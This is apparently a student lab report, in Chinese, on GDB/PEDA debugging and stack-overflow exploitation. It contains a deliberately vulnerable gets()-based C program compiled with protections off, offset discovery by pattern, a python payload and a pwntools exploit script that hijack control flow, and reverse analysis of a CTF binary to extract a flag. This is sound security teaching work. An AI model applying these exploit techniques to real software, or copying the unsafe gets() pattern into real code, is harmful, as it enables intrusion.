

# 实验七：调试应用的高级方法实验报告

## 一、实验目的

- 熟练使用 GDB 与 PEDA 插件调试二进制程序，观察寄存器、栈、代码段和内存内容。
- 掌握基于 `gets()` 的栈溢出漏洞分析方法，理解缓冲区、保存的 RBP 和返回地址之间的关系。
- 学会使用 PEDA 的 pattern 功能定位溢出偏移量，并通过覆盖返回地址改变程序控制流。
- 使用 pwntools 编写漏洞利用脚本，将手工构造 payload、启动进程、发送输入和接收输出自动化。
- 在无源码或弱源码线索的情况下，综合使用 `file`、`strings`、`checksec`、`info functions` 和反汇编命令分析未知二进制程序并提取 flag。

## 二、实验环境

| 项目 | 配置 |
|------|------|
| 宿主机环境 | Windows 主机 |
| 虚拟化平台 | VirtualBox |
| 虚拟机操作系统 | Kali Linux |
| 调试工具 | GDB、PEDA |
| 漏洞利用工具 | pwntools |
| 编程语言 | C、Python |
| 编译器 | GCC |
| 实验目录 | `~/0x07` |
| 实验程序 | `vuln.c`、`vuln`、`payload.txt`、`exploit.py`、`flag_stealer` |

## 三、实验原理与基础知识

### （一）GDB 与 PEDA

GDB 是 GNU 调试器，可以对程序进行断点设置、单步执行、寄存器查看、内存查看和反汇编分析。PEDA 是 GDB 的 Python 插件，全称为 Python Exploit Development Assistance for GDB，主要面向漏洞利用和逆向分析场景。

PEDA 在普通 GDB 的基础上增强了寄存器、栈、代码区和内存内容的可视化显示，并提供 `checksec`、`pattern_create`、`pattern_offset`、`hexdump` 等命令，适合用于分析栈溢出漏洞。

### （二）栈溢出与返回地址覆盖

本实验程序中使用了不安全函数 `gets(buffer)`。该函数不会检查输入长度，如果输入内容超过局部数组 `buffer` 的容量，就会继续覆盖栈中的保存 RBP 和返回地址。

在 64 位程序中，若 `buffer` 为 64 字节，通常还需要越过 8 字节保存的 RBP 才能覆盖返回地址。因此本实验最终确定返回地址偏移量为：

```text
64 字节 buffer + 8 字节 saved RBP = 72 字节
```

只要构造：

```text
72 字节填充数据 + 目标函数地址
```

就可以在函数返回时让程序跳转到指定函数，例如本实验中的 `secret_function()`。

### （三）pwntools 自动化利用

pwntools 是常用于 CTF 和二进制漏洞利用的 Python 库，能够完成本地进程交互、ELF 符号解析、地址打包、payload 构造和输出接收等工作。本实验使用 `ELF()` 自动获取 `secret_function` 地址，使用 `p64()` 将地址打包为 64 位小端格式，再通过 `process()` 和 `sendline()` 完成自动化漏洞利用。

## 四、实验内容

### （一）实验一：使用 PEDA 加强 GDB 调试

#### 1. 安装 GDB 与 PEDA

首先安装 GDB：

```bash
sudo apt-get update
sudo apt-get install -y gdb
```


截图显示 GDB 已安装完成，为后续调试二进制程序提供基础环境。

随后下载 PEDA：

```bash
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
gdb -q
```


截图显示 PEDA 仓库已下载。将 `source ~/peda/peda.py` 写入 `~/.gdbinit` 后，每次启动 GDB 都会自动加载 PEDA。

#### 2. 处理 PEDA 加载问题

首次运行 `gdb -q` 时，GDB 没有进入预期的 `gdb-peda$` 提示符，而是出现：

```text
No module named 'six.moves'
```


为判断问题来源，检查 GDB 内置 Python 的版本和模块路径，并测试 `six.moves` 是否能被导入：

```bash
gdb -q --nx -ex "python import sys; print(sys.version); print(sys.path)" -ex quit
gdb -q --nx -ex "python import six; print(six.__file__); import six.moves; print('six.moves ok')" -ex quit
```

测试结果说明 GDB 本身可以正常导入 `six.moves`，问题更可能来自 PEDA 版本与当前 Python 环境的兼容性。随后更换 PEDA 版本：

```bash
git clone https://github.com/zachriggle/peda.git ~/peda
```

更换后又出现与 `collections.Callable` 相关的兼容性问题。


该问题是因为新版 Python 中 `collections.Callable` 已移到 `collections.abc.Callable`。修正对应代码后再次启动 GDB：

```bash
gdb -q
```


截图显示已经成功进入 `gdb-peda$`，说明 PEDA 插件加载完成。

#### 3. 创建漏洞测试程序

在实验目录中创建 `vuln.c`：

```bash
cd ~/0x07
nano vuln.c
```

写入如下代码：

```c
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("Congratulations! You've found the secret function!\n");
}

void echo_input() {
    char buffer[64];
    printf("Enter some text: ");
    gets(buffer);
    printf("You entered: %s\n", buffer);
}

int main() {
    printf("Welcome to the vulnerable program!\n");
    echo_input();
    printf("Program execution completed normally.\n");
    return 0;
}
```


保存后查看文件：

```bash
ls
cat vuln.c
```


该程序中 `echo_input()` 使用 `gets(buffer)` 读取输入，`buffer` 大小为 64 字节，存在典型栈溢出风险。`secret_function()` 在正常流程中不会被调用，后续实验将通过覆盖返回地址使程序跳转到该函数。

#### 4. 编译漏洞程序

为了便于调试和演示漏洞利用，编译时关闭部分安全保护：

```bash
gcc -g -fno-stack-protector -z execstack -no-pie -Wno-implicit-function-declaration -Wno-deprecated-declarations vuln.c -o vuln
```

参数说明如下：

| 参数 | 作用 |
|------|------|
| `-g` | 生成调试信息，便于 GDB 显示源码和符号 |
| `-fno-stack-protector` | 关闭栈保护机制 |
| `-z execstack` | 允许栈可执行 |
| `-no-pie` | 禁用 PIE，使程序地址固定 |
| `-Wno-implicit-function-declaration` | 关闭隐式函数声明警告 |
| `-Wno-deprecated-declarations` | 关闭弃用函数警告 |


编译时出现 `gets` 函数危险的警告，这是预期现象，因为本实验正是利用 `gets()` 构造栈溢出场景。

运行程序进行简单测试：

```bash
./vuln
```


截图显示程序能够正常输出欢迎信息、接收输入并回显，说明测试程序编译成功。

#### 5. 使用 PEDA 进行基本调试

启动调试：

```bash
gdb -q ./vuln
```


进入 `gdb-peda$` 后，执行：

```bash
checksec
```


从输出可以看出，程序未启用 Canary，PIE 关闭，地址固定，适合演示返回地址覆盖。

查看函数列表：

```bash
info functions
```


函数列表中可以看到 `main`、`echo_input` 和 `secret_function`。继续查看目标函数地址：

```bash
p secret_function
```


输出显示 `secret_function` 地址为：

```text
0x401176
```

该地址将在后续 payload 中用于覆盖返回地址。

#### 6. 设置断点并进入漏洞函数

设置断点并运行：

```bash
break main
run
```


程序停在 `main()`，PEDA 自动显示寄存器、代码区和栈区信息。随后关闭 ASLR，并单步进入 `echo_input()`：

```bash
aslr off
next
step
```


截图显示程序已经进入包含 `gets()` 的 `echo_input()` 函数，为观察栈结构和后续溢出分析做准备。

#### 7. 查看栈布局和内存内容

实验手册中给出 `stack 20` 和 `telescope 20`，但当前 PEDA 版本中这些命令只显示帮助信息，因此使用 GDB 原生命令查看栈内容：

```bash
x/20gx $rsp
```


该命令从 `$rsp` 指向的位置开始，以 8 字节为单位显示 20 个栈内存单元，可以观察当前栈帧附近的数据。

继续搜索内存字符串并查看栈顶十六进制内容：

```bash
find "/bin/sh"
hexdump $rsp
```


该步骤验证了 PEDA 对内存搜索和十六进制显示的增强能力。

#### 8. 使用 PEDA 分析栈溢出

首先反汇编 `echo_input()`，定位 `gets()` 调用位置：

```bash
disas echo_input
```


从反汇编可知，`gets@plt` 调用后的地址为 `0x4011c1`。在该地址设置断点：

```bash
break *0x4011c1
run
```

当前 PEDA 版本中 `pattern create 100` 无法正常输出模式字符串，因此使用等价命令：

```bash
pattern_create 100
```


生成的特殊模式字符串用于定位溢出位置。将其输入程序后，程序在 `gets()` 之后的断点处暂停：


继续执行程序：

```bash
continue
```


程序发生段错误，寄存器已被模式字符串覆盖。此时 `RBP` 被覆盖为：

```text
0x4141334141644141
```

对应字符串片段为：

```text
AAdAA3AA
```

使用 `pattern_offset` 查询偏移：

```bash
pattern_offset AAdAA3AA
```


结果显示该片段位于偏移 64。由于保存的 RBP 占 8 字节，因此返回地址偏移量为：

```text
64 + 8 = 72 字节
```

#### 9. 手工构造 payload 并验证利用

根据前面得到的偏移量和目标函数地址，payload 结构为：

```text
72 字节填充 + secret_function 地址
```

在终端中生成 payload 文件：

```bash
python3 -c 'import struct; open("payload.txt", "wb").write(b"A"*72 + struct.pack("<Q", 0x401176))'
```

运行程序并输入 payload：

```bash
./vuln < payload.txt
```


截图显示程序输出：

```text
Congratulations! You've found the secret function!
```

说明返回地址已被覆盖为 `secret_function()` 的地址，程序控制流被成功劫持。

继续在 GDB 中验证：

```bash
gdb -q ./vuln
run < payload.txt
```


GDB 中同样输出隐藏函数提示信息，随后程序因栈结构被破坏而出现 `SIGILL` 或 `SIGSEGV`。该异常属于预期现象，因为实验目标是劫持控制流并执行隐藏函数，而不是让程序继续正常返回。

### （二）实验二：利用 pwntools 进行漏洞利用

#### 1. 安装并验证 pwntools

安装依赖：

```bash
sudo apt-get update
sudo apt-get install -y python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

验证 pwntools 可用性：

```bash
python3 -c 'from pwn import *; print(pwnlib.version)'
```


截图显示 pwntools 已可正常导入，说明可以继续编写自动化利用脚本。

#### 2. 编写 exploit.py

创建脚本：

```bash
cd ~/0x07
nano exploit.py
```

写入如下代码：

```python
#!/usr/bin/env python3
from pwn import *

# 指定待利用的本地二进制程序。
binary_path = './vuln'

# 启动目标程序，相当于在终端中执行 ./vuln。
p = process(binary_path)

# 接收程序启动后的欢迎信息和输入提示，避免后续输出混在一起。
p.recv(timeout=1)

# 加载 ELF 文件，pwntools 会解析符号表、程序架构和保护机制等信息。
elf = ELF(binary_path)

# 从符号表中自动获取 secret_function() 的地址，避免手动硬编码查询过程。
secret_function_addr = elf.symbols['secret_function']
log.info(f"Secret function地址: {hex(secret_function_addr)}")

# 偏移量来自前面 PEDA pattern 分析：64 字节 buffer + 8 字节 saved RBP = 72。
offset = 72

# 构造 payload：
# 前 72 字节用于填充缓冲区并覆盖 saved RBP；
# p64() 将 secret_function 地址打包为 64 位小端序，用于覆盖返回地址。
payload = b'A' * offset + p64(secret_function_addr)

# 将 payload 发送给程序的 gets(buffer)，触发栈溢出。
p.sendline(payload)

# 接收程序后续全部输出，并忽略异常字节解码问题。
result = p.recvall(timeout=2).decode(errors='replace')
print(result)
```



脚本的执行逻辑可以分为四步：第一步使用 `process()` 启动本地目标程序，使脚本能够像人工输入一样与程序交互；第二步使用 `ELF()` 解析目标文件的符号表，自动获得 `secret_function()` 地址；第三步根据 PEDA 得到的 72 字节偏移量构造 payload，并用 `p64()` 将目标地址转换为 64 位小端格式；第四步通过 `sendline()` 将 payload 发送给 `gets(buffer)`，使输入数据覆盖返回地址，最终让程序跳转执行 `secret_function()`。

与手工生成 `payload.txt` 的方式相比，pwntools 脚本的优势是地址解析、字节序转换、进程交互和结果接收都可以自动完成。如果后续目标函数地址发生变化，只要符号名不变，脚本仍可以通过 `elf.symbols['secret_function']` 自动获取新地址，减少手动修改出错的概率。

#### 3. 运行脚本并验证结果

执行：

```bash
python3 exploit.py
```


运行结果中可以看到 pwntools 自动启动本地进程、输出 ELF 保护信息，并解析出 `secret_function` 地址。随后程序输出：

```text
Congratulations! You've found the secret function!
```

说明自动化利用成功。与手工 payload 相比，pwntools 能够自动处理地址解析、字节序打包和进程交互，提升了漏洞利用的可复现性。

### （三）扩展实验三：逆向分析未知二进制程序

#### 1. 查看文件基本信息

目标文件为 `flag_stealer`。先赋予执行权限并查看文件类型：

```bash
chmod +x flag_stealer
file flag_stealer
```


输出显示该文件是 64 位 Linux ELF 可执行文件，动态链接，包含 `debug_info`，且 `not stripped`，说明符号信息较完整，适合使用 GDB/PEDA 分析。

#### 2. 静态字符串分析

使用 `strings` 提取可打印字符串：

```bash
strings flag_stealer | grep flag
strings flag_stealer
```


输出中直接发现疑似 flag：

```text
flag{208f1b1289da972682cbc81c8684fcc8}
```

同时可以看到 `vulnerable`、`main`、`success`、`gets` 等字符串，说明程序结构很可能与前面的漏洞样例类似。

#### 3. 查看程序保护机制

使用 GDB/PEDA 打开程序：

```bash
gdb -q ./flag_stealer
checksec
```


输出显示程序关闭 Canary、PIE，NX 也未严格启用，这说明该程序同样适合进行栈溢出和控制流劫持分析。

#### 4. 查看函数符号

执行：

```bash
info functions
```


可以看到程序包含 `main()`、`vulnerable()` 和 `success()`。其中 `vulnerable()` 很可能负责读取输入，`success()` 很可能负责输出隐藏 flag。

#### 5. 分析 main 函数

反汇编 `main()`：

```bash
disas main
```


关键调用关系如下：

```asm
call puts@plt
call vulnerable
call puts@plt
```

这说明程序正常执行流程会调用 `vulnerable()`，但不会直接调用 `success()`。

#### 6. 分析 vulnerable 函数

继续反汇编：

```bash
disas vulnerable
```


关键指令如下：

```asm
lea    rax,[rbp-0xc]
call   gets@plt
```

该结果说明 `vulnerable()` 使用 `gets()` 读取输入到栈上局部缓冲区，存在栈溢出风险。

#### 7. 分析 success 函数并确认 flag

反汇编 `success()`：

```bash
disas success
```


关键逻辑显示 `success()` 将地址 `0x402008` 附近的字符串传入 `puts()` 输出。结合 `strings` 结果，可以确认该字符串就是：

```text
flag{208f1b1289da972682cbc81c8684fcc8}
```

因此，本扩展实验成功通过静态字符串分析和动态反汇编确认了隐藏 flag。

## 五、实验问题与解决方法

### （一）PEDA 插件与 Python 版本兼容

实验开始时 PEDA 加载出现 `No module named 'six.moves'`，更换 PEDA 版本后又出现 `collections.Callable` 相关错误。通过检查 GDB 内置 Python 环境确认 `six.moves` 本身可以导入，因此问题主要来自 PEDA 代码与当前 Python 版本之间的兼容性。最终通过更换 PEDA 版本，并将旧写法 `collections.Callable` 改为 `collections.abc.Callable` 解决问题。

### （二）PEDA 命令在不同版本中存在差异

实验手册中的 `stack 20`、`telescope 20`、`pattern create 100` 和 `pattern search` 在当前 PEDA 版本中没有完全按示例工作。实际实验中使用 `x/20gx $rsp` 查看栈内容，使用 `pattern_create 100` 生成模式字符串，并通过 `pattern_offset` 查询偏移量。该问题说明调试时应理解命令目的，而不是机械依赖某个命令名称。

### （三）payload 字节序与异常终止

本实验目标程序为 64 位小端序 ELF，因此目标函数地址必须用 `struct.pack("<Q", addr)` 或 pwntools 的 `p64(addr)` 进行小端打包。payload 成功后程序仍可能出现 `SIGSEGV` 或 `SIGILL`，这是因为返回地址和栈帧已经被覆盖，`secret_function()` 执行结束后无法返回到合法地址。只要已经输出隐藏函数提示信息，就可以判断漏洞利用成功。

## 六、实验总结

本次实验围绕 GDB/PEDA 调试、栈溢出漏洞分析、payload 构造、pwntools 自动化利用和未知二进制逆向分析展开。

实验一中，通过编写含 `gets()` 的漏洞程序，使用 GDB/PEDA 查看保护机制、函数符号、目标函数地址和栈布局，并通过 pattern 字符串确定返回地址偏移量为 72 字节。随后构造 `72` 字节填充加 `secret_function()` 地址的 payload，成功劫持程序控制流并执行隐藏函数。

实验二中，使用 pwntools 将手工漏洞利用过程脚本化。脚本通过 `ELF()` 自动解析符号地址，通过 `p64()` 处理 64 位小端序地址，并使用 `process()`、`sendline()` 和 `recvall()` 完成程序交互，提升了漏洞利用过程的自动化和可复现性。

扩展实验中，针对未知二进制程序 `flag_stealer`，使用 `file`、`strings`、`checksec`、`info functions` 和 `disas` 逐步分析程序结构，确认其存在 `vulnerable()` 和 `success()` 函数，并最终提取到 flag：

```text
flag{208f1b1289da972682cbc81c8684fcc8}
```

通过本次实验，我进一步理解了栈溢出漏洞从形成到利用的完整过程，也认识到调试工具版本、程序保护机制、地址字节序和自动化脚本都会影响漏洞分析结果。

## 七、思考题

### （一）为什么编译时要使用 `-fno-stack-protector` 和 `-z execstack`

`-fno-stack-protector` 用于关闭栈保护机制，使程序不会插入 Stack Canary。这样当输入覆盖返回地址时，程序不会在函数返回前因为 Canary 校验失败而提前终止。`-z execstack` 用于允许栈可执行，虽然本实验主要是跳转到已有的 `secret_function()`，没有执行栈上 shellcode，但该选项可以降低漏洞利用实验中的保护限制，便于理解传统栈溢出利用方式。

### （二）如果启用 ASLR，攻击是否仍然有效

启用 ASLR 后，栈、库函数和部分程序地址可能随机化，直接使用固定地址的攻击方式会受到影响。本实验通过 `-no-pie` 固定了程序代码段地址，因此 `secret_function()` 地址仍较稳定；如果目标函数或 libc 地址也随机化，则需要通过信息泄露、暴力猜测、ret2plt、ret2libc 或 ROP 等方式绕过 ASLR。

### （三）除了改变返回地址，栈溢出还可能造成什么问题

栈溢出还可能覆盖局部变量、函数指针、保存的寄存器、异常处理结构或关键控制数据，从而造成权限绕过、逻辑判断改变、程序崩溃、任意代码执行等后果。即使不能直接控制返回地址，覆盖关键变量也可能改变程序安全逻辑。

### （四）没有符号信息时如何识别关键函数

如果二进制文件被 stripped，不能直接依赖函数名。可以通过字符串引用、导入函数调用、交叉引用、函数调用关系、控制流图、常量特征和程序行为来定位关键函数。例如出现 `gets`、`strcpy`、`system`、`printf` 等危险函数调用的位置，往往是漏洞分析的重要入口。

### （五）pwntools 相比手工漏洞利用有什么优势

pwntools 可以自动解析 ELF 符号、处理小端序地址打包、管理本地或远程进程交互，并统一接收程序输出。与手工构造 payload 相比，脚本化方式更稳定、可复现，也便于后续扩展为远程利用、ROP 链构造或批量测试。

## 参考资料

1. 《0x07 调试应用的高级方法》实验手册，课程实验资料，2026-05-24。
2. PEDA 项目：https://github.com/longld/peda
3. pwntools 官方文档：https://docs.pwntools.com/
4. GDB 官方文档：https://sourceware.org/gdb/documentation/
5. Modern Binary Exploitation 课程资料：https://github.com/RPISEC/MBE
